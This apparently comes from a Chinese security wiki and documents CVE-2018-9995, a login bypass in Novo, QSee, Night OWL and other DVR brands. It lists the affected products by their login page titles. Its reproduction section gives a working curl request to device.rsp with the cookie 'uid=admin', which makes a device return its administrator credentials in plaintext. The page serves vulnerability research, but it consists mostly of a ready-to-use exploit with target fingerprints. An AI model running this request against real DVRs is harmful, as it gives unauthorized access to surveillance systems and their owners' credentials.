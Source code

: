 # DVR 登录绕过漏洞 CVE-2018-9995

## 漏洞描述

DVR，全称为Digital Video Recorder(硬盘录像机)，即数字视频录像机。最初由阿根廷研究员发现，通过使用“Cookie： uid = admin”的Cookie标头来访问特定DVR的控制面板，DVR将以明文形式响应设备的管理员凭证。

## 漏洞影响

<a-checkbox checked>Novo</a-checkbox></br>

<a-checkbox checked>CeNova</a-checkbox></br>

<a-checkbox checked>QSee</a-checkbox></br>

<a-checkbox checked>Pulnix</a-checkbox></br>

<a-checkbox checked>XVR 5 in 1 (title: "XVR Login")</a-checkbox></br>

<a-checkbox checked>Securus, - Security. Never Compromise !! -</a-checkbox></br>

<a-checkbox checked>Night OWL</a-checkbox></br>

<a-checkbox checked>DVR Login</a-checkbox></br>

<a-checkbox checked>HVR Login</a-checkbox></br>

<a-checkbox checked>MDVR Login</a-checkbox></br>

## 漏洞复现

使用curl命令获得账号密码

```shell
curl "http://xxx.xxx.xxx.xxx/device.rsp?opt=user&cmd=list" -H "Cookie: uid=admin"
```

![img](/assets/PeiQi-Wiki/img/dvr-1.png)